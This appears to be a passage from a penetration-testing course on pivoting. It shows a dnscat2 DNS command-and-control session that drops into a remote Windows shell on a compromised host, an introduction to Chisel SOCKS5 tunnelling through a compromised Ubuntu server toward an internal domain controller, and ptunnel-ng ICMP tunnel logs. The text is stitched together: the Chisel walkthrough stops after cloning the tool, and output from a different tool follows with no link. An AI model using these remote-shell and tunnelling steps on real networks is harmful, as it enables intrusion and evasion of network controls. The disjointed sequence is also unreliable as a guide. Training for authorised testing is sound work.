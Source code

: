
We can use dnscat2 to interact with sessions and move further in a target environment on engagements. We will not cover all possibilities with dnscat2 in this module, but it is strongly encouraged to practice with it and maybe even find creative ways to use it on an engagement. Let's interact with our established session and drop into a shell.

#### Interacting with the Established Session

```shell
dnscat2> window -i 1
New window created: 1
history_size (session) => 1000
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)
This is a console session!

That means that anything you type will be sent as-is to the
client, and anything they type will be displayed as-is on the
screen! If the client is executing a command and you don't
see a prompt, try typing 'pwd' or something!

To go back, type ctrl-z.

Microsoft Windows [Version 10.0.18363.1801]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
exec (OFFICEMANAGER) 1>

```


# SOCKS5 Tunneling with Chisel

* * *

[Chisel](https://github.com/jpillora/chisel) is a TCP/UDP-based tunneling tool written in [Go](https://go.dev/) that uses HTTP to transport data that is secured using SSH. `Chisel` can create a client-server tunnel connection in a firewall restricted environment. Let us consider a scenario where we have to tunnel our traffic to a webserver on the `172.16.5.0`/ `23` network (internal network). We have the Domain Controller with the address `172.16.5.19`. This is not directly accessible to our attack host since our attack host and the domain controller belong to different network segments. However, since we have compromised the Ubuntu server, we can start a Chisel server on it that will listen on a specific port and forward our traffic to the internal network through the established tunnel.

## Setting Up & Using Chisel

Before we can use Chisel, we need to have it on our attack host. If we do not have Chisel on our attack host, we can clone the project repo using the command directly below:

#### Cloning Chisel

```shell
git clone https://github.com/jpillora/chisel.git

```


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <[email protected]>
[inf]: (c) 2017-2019 Toni Uhlig,     <[email protected]>
[inf]: Security features by Sebastien Raveau, <[email protected]>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <[email protected]>
[inf]: (c) 2017-2019 Toni Uhlig,     <[email protected]>
[inf]: Security features by Sebastien Raveau, <[email protected]>
[inf]: Relaying packets from incoming TCP streams.
[inf]: Starting new session to 10.129.202.64:22 with ID 20199
[inf]: Received session close from remote peer.
[inf]: I/O:   0.00/  0.00 mb ICMP I/O/R:      248/      22/       0 Loss:  0.0%